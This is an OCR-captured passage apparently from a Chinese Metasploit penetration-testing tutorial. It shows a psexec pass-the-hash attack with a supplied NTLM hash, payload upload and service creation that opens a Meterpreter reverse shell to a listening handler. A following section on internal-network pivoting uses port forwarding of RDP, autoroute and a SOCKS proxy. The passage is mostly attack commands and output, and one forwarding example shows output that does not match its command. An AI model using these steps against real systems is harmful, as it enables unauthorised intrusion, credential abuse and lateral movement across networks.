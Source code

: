 	SMBPass => 01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537

	msf exploit(psexec) > exploit

	[*] Started reverse handler on 192.168.0.3:4444
	[*] Connecting to the server...
	[*] Authenticating to 192.168.0.254:445|WORKGROUP as user 'isosky'...
	[*] Uploading payload...
	[*] Created \UGdecsam.exe...
	[*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.0.254[\svcctl] ...
	[*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.0.254[\svcctl] ...
	[*] Obtaining a service manager handle...
	[*] Creating a new service (MZsCnzjn - "MrZdoQwIlbBIYZQJyumxYX")...
	[*] Closing service handle...
	[*] Opening service...
	[*] Starting the service...
	[*] Removing the service...
	[*] Closing service handle...
	[*] Deleting \UGdecsam.exe...
	[*] Sending stage (749056 bytes) to 192.168.0.254
	[*] Meterpreter session 1 opened (192.168.0.3:4444 -> 192.168.0.254:1877) at 2011-07-19 03:57:17 +0800



##0x03 内网渗透

**10.42.0.54为target**

####端口转发

	meterpreter > portfwd add -l 1234 -p 3389 -r 10.42.0.54
	[*] Local TCP relay created: 0.0.0.0:8081 <-> 10.42.0.54:80

将远程主机3389端口转发到本地1234端口上

####内网代理

#####Windows常规

	meterpreter > run autoroute -s 10.42.0.54
	[*] Adding a route to 10.42.0.54/255.255.255.0...
	[+] Added route to 10.42.0.54/255.255.255.0 via 10.42.0.54
	[*] Use the -p option to list all active routes
	meterpreter > background
	[*] Backgrounding session 1...
	msf exploit(handler) > use auxiliary/server/socks4a
	msf auxiliary(socks4a) > show options

	Module options (auxiliary/server/socks4a):

	   Name     Current Setting  Required  Description
	   ----     ---------------  --------  -----------
	   SRVHOST  0.0.0.0          yes       The address to listen on
	   SRVPORT  1080             yes       The port to listen on.


	Auxiliary action:
